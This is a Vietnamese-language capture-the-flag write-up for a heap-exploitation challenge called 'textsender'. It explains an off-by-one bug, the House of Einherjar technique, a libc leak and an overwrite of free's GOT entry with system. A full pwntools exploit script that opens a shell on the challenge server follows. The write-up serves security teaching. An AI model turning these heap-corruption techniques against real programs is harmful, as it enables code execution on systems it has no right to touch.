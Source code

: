 # textsender

## Bugs

- Ta có bug off-by-one của hàm scanf khiến mình liên tưởng kĩ thuật poison null byte, tuy nhiên các chunk được malloc cố định là 0x20, 0x80 0x200 nên có vẻ không được
- Cuối cùng mình được hint là kĩ thuật House of Enherjar. Kĩ thuật này sử dụng off-by-one để tắt bit inuse và tiến hành fake chunk -> overlap chunk

## Khai thác

```python
def add(idx, payload):
    sla(b"> ", b"2")
    sla(b": ", idx)
    sla(b": ", payload)


def send():
    sla(b"> ", b"5")


def edit(idx):
    sla(b"> ", b"3")
    sla(b": ", idx)

def setname(payload):
    sla(b"> ", b"1")
    sla(b": ", payload)

def fill_bin():
    add("wan", b'bbbb')
    add("wan", b'bbbb')
    add("wan", b'bbbb')
    add("wan", b'/bin/sh')
    add("2", b'bbbb')
    add("2", b'bbbb')
```

### Setup chunk

- Trước hết, ta cần free chunk được merge trước khi free chunk fake, tuy nhiên chunk merge có địa chỉ > chunk fake. Do vậy ta cần làm sao chunk merge được malloc trước chunk fake, khi free chunk merge sẽ được free trước.
- Để được như vậy, ta cần một số các bước xếp chunk.
- Ta sẽ tận dụng việc getline trong hàm edit tạo một chunk 0x80 và free nó.
- Ta chỉ cần chú ý chunk 0x80, dưới đây chỉ là các chunk 0x80

```python
fill_bin()
setname(b'a')
send()

fill_bin()
add("wan",b"b")
edit("6"*0x75)
send()

fill_bin()
add("wan",b"b")
add("wan",b"b")
edit("6"*0x75)
send()
fill_bin()
add("wan",b"b")
add("wan",b"b")
add("wan",b"b")
add("wan",b"b")
edit("6"*0x75)
send()
```

- Khi này trong tcache và fastbin như sau
  ![Alt text](/senkai//textsender/bin/image-3.png)
- Khi này chunk 9 sẽ là chunk ow bit inuse chunk 0x200 ở dưới
  ![Alt text](/senkai//textsender/bin/image-4.png)
- và chunk 6 sẽ là fake chunk
  > Ở đây có lưu ý là cả 2 chunk merge và fake không được ở tcache

```python
presize = 0x870
fill_bin()
add("1",b"b")
add(b"a" * 0x70 + p64(presize),b"b")
add("3",b"b")
add(p64(0) + p64(presize) + p64(exe.sym.sender-0x18) + p64(exe.sym.sender - 0x10),b"b")
send()
```

- Khi này ta đã overlap chunk
  ![Alt text](/senkai//textsender/bin/image-5.png)

### Leak libc
- Ta có thể điều khiển 2 con trỏ của chunk 0x20 để leak libc
```python
fill_bin()
add("wan",b"b")
add("\0",b"b")
add("\0",b"b")
add(b'9',b"\0"*12*8 + p64(0) + p64(0x21) + p64(0x404028) + p64(0x404028))
sla(b'> ', b'4')
p.recvlines(7)
p.recvuntil(b'6) ')
libc.address = u64(p.recvuntil(b':', drop=True) + b'\0\0') - libc.sym.puts
info(hex(libc.address))
```
### Ow free
```python
edit(b'9')
payload = b"\0"*12*8 + p64(0) + p64(0x21) + p64(0x404028) + p64(exe.got.free)
sla(b": ", payload)
edit(p64(libc.address + 0x77ec0))
sla(b': ', p64(libc.sym.system))
send()
```
### Kết quả
![Alt text](/senkai//textsender/bin/image-6.png)
```python
#!/usr/bin/python3

from pwn import *

exe = ELF("textsender_patched", checksec=False)
libc = ELF("./libc.so.6")
context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(
            p,
            gdbscript="""

                # b* 0x00000000004016b5
                c
                """,
        )
        input()


info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
    p = remote("chals.sekai.team", 4000)
else:
    p = process(exe.path)

GDB()


def add(idx, payload):
    sla(b"> ", b"2")
    sla(b": ", idx)
    sla(b": ", payload)


def send():
    sla(b"> ", b"5")


def edit(idx):
    sla(b"> ", b"3")
    sla(b": ", idx)

def setname(payload):
    sla(b"> ", b"1")
    sla(b": ", payload)
    
def fill_bin():
    add("wan", b'bbbb')
    add("wan", b'bbbb')
    add("wan", b'bbbb')
    add("wan", b'/bin/sh')
    add("2", b'bbbb')
    add("2", b'bbbb')
fill_bin()
setname(b'a')
send()  

fill_bin()
add("wan",b"b")
edit("6"*0x75)
send()

fill_bin()
add("wan",b"b")
add("wan",b"b")
edit("6"*0x75)
send()
fill_bin()
add("wan",b"b")
add("wan",b"b")
add("wan",b"b")
add("wan",b"b")
edit("6"*0x75)
send()

presize = 0x870
fill_bin()
add("1",b"b")
add(b"a" * 0x70 + p64(presize),b"b")
add("3",b"b")
add(p64(0) + p64(presize) + p64(exe.sym.sender-0x18) + p64(exe.sym.sender - 0x10),b"b")
send()
fill_bin()
add("wan",b"b")
add("\0",b"b")
add("\0",b"b")
add(b'9',b"\0"*12*8 + p64(0) + p64(0x21) + p64(0x404028) + p64(0x404028))
sla(b'> ', b'4')
p.recvlines(7)
p.recvuntil(b'6) ')
libc.address = u64(p.recvuntil(b':', drop=True) + b'\0\0') - libc.sym.puts
info(hex(libc.address))
edit(b'9')
payload = b"\0"*12*8 + p64(0) + p64(0x21) + p64(0x404028) + p64(exe.got.free)
sla(b": ", payload)
edit(p64(libc.address + 0x77ec0))
sla(b': ', p64(libc.sym.system))
send()
p.interactive()

```